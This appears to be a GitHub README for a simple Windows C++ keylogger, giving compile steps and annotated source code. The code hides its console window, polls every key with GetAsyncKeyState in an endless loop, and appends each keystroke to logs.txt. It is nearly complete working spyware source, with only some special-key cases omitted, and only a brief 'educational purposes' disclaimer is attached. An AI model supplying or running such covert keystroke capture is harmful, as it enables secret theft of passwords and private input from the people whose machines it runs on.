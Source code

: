# Keylogger

This Keylogger is a simple C++ program that records keystrokes and saves them into a log file. It is designed for educational purposes only.

## Requirements

- Windows operating system
- C++ compiler

## Usage
1. Clone the repository or create a new C++ project.
2. Create a new C+++ file (e.g., `keylogger.cpp`) and copy the code into it or clone the repository.
3. Compile the program. 
    ```bash
        g++ keylogger.cpp -o keylogger.exe
    ```
4. Run the program.
5. The program will start recording keystrokes and save them into a log file.

## How It Works

    ```cpp 
    #define _WIN32_WINNT 0x0500
    #include <Windows.h>
    #include <string>
    #include <iostream>
    #include <fstream>
    #include <algorithm>
    ```
- The `#define _WIN32_WINNT 0x0500` directive sets the minimum required version of the Windows API.
- The `Windows.h` header provides functions and constants for Windows programming.
- Other headers `(string, iostream, fstream, algorithm)` are included for various standard C++ functionalities used in the code.

    ```
    #define LOG_FILE "logs.txt"
    ```
- The `LOG_FILE` constant defines the name of the log file where keystrokes will be stored.

    ```cpp
        void saveData(const std::string& data) {
        std::ofstream logFile(LOG_FILE, std::ios::app);

        if (logFile.is_open()) {
            logFile << data;
            logFile.close();
        }
    }
    ```
- The `saveData` function takes a string `(data)` as input and appends it to the log file specified by `LOG_FILE`.
- It uses an `ofstream` object `(logFile)` to open the file in append mode `(std::ios::app)`.
- If the file is successfully opened, the `data` string is written to the file, and then the file is closed.

    ```cpp
        std::string translateSpecialKey(int key) {
        std::string result;

        switch (key) {
        case VK_SPACE:
            result = " ";
            break;
        case VK_RETURN:
            result = "\n";
            break;
        // other cases omitted for brevity
        }

        return result;
    }
    ```
- The `translateSpecialKey` function takes an integer `key` as input and returns a corresponding string representation for special keys.
- It uses a `switch` statement to map the integer `key` to its corresponding special key string.
-- For example, `VK_SPACE` is mapped to a space character, `VK_RETURN` is mapped to a newline character, and so on.

    ```cpp
    int main() {
    int specialKeyArray[] = { VK_SPACE, VK_RETURN, VK_SHIFT, VK_BACK, VK_CAPITAL, VK_TAB, VK_CONTROL, VK_MENU };
    bool isSpecialKey;

    HWND hwnd = GetConsoleWindow();
    ShowWindow(hwnd, SW_HIDE);
    ```
- The `main` function is the entry point of the program.
- An integer array `specialKeyArray` is defined, which contains the virtual key codes for various special keys.
- A boolean variable `isSpecialKey` is declared to determine if a pressed key is a special key.
- The `hwnd` variable holds the handle of the console window, and `ShowWindow` is called to hide the console window.

    ```cpp
            while (true) {
            for (int key = 8; key <= 190; key++) {
                if (GetAsyncKeyState(key) == -32767) {
                    isSpecialKey = std::find(std::begin(specialKeyArray), std::end(specialKeyArray), key) != std::end(specialKeyArray);
                    if (isSpecialKey) {
                        std::string specialKeyChar = translateSpecialKey(key);
                        saveData(specialKeyChar);
                    } else {
                        char character = static_cast<char>(key);
                        if (GetKeyState(VK_CAPITAL) & 0x0001) {
                            saveData(std::string(1, character));
                        } else {
                            saveData(std::string(1, std::tolower(character)));
                        }
                    }
                }
            }
        }

        return 0;
    }
    ```
- The program enters an infinite `while` loop to continuously monitor keystrokes.
- The loop iterates over a range of key codes from 8 to 190 (inclusive) using the for loop.
- Inside the loop, `GetAsyncKeyState` is called to check the state of each key.
- If a key is pressed `(GetAsyncKeyState(key) == -32767)`, it is checked if it is a special key using `std::find` and the `specialKeyArray`.
- If it is a special key, the corresponding special character string is retrieved using `translateSpecialKey` and then passed to `saveData` to be saved in the log file.
- If it is not a special key, the key is treated as a regular character.
    - If the Caps Lock key is active `(GetKeyState(VK_CAPITAL) & 0x0001)`, the character is saved in uppercase.
    - Otherwise, the character is converted to lowercase using `std::tolower` and then saved.
- This process continues indefinitely, capturing and logging keystrokes until the program is manually terminated.

## Disclaimer

This software is created solely for educational purposes. The developer is not responsible for any misuse of this software. Please use it responsibly and in compliance with applicable laws and regulations.

---

**Disclaimer of Legal Liability:**
Please refer to the [Disclaimer of Legal Liability](./DISCLAIMER.md) for important legal information regarding the use of this software.
